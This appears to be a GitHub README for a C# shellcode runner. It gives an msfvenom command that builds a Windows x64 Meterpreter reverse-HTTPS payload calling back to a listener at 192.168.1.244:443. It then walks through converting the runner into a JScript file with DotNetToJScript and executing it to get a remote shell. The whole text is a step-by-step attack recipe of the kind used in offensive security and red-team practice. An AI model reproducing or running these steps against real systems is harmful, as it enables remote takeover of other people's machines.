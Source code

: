 before compiling this we must set cpu to x64 since this is 64 bit shellcode 
![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/ee0c42e2-5e1e-4f61-982d-817d9613d635)

our payload 
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.1.244 lport=443  -f csharp  
![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/188ebfad-1a70-4542-acb4-ed66f25ce7d7)

![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/21e53423-1b26-4b4c-91bd-4a281c1b4f3c)

javascript shellcode runner utizilize dotnettojs https://github.com/tyranid/DotNetToJScript/tree/master

Go to the DotNetToJScript folder and copy DotNetToJscript.exe and NDesk.Options.dll to a folder

Copy javascriptshellcoderunner.cs to test.class in the exampleassembly
![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/29d1ae9c-c592-4bd3-a900-497c4c01950f)

Move ExampleAssembly.dll to a folder 

Output file to a js file 
DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o runner.js

Execute js file for shell
![image](https://github.com/VietTheBarbarian/ShellcodeRunnerC-/assets/56415307/8f84dc31-9489-4e81-89ed-ce5746b8eb2a)


